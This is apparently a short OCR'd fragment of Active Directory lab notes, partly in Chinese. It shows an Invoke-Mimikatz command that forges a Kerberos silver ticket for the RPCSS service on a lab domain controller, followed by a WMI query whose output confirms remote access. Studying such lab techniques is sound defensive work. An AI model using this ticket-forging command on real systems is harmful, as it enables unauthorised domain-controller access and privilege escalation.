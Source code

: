```

RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

然后执行WMI 
```
PS C:\ad> Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local


SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA805
Version         : 10.0.14393
```
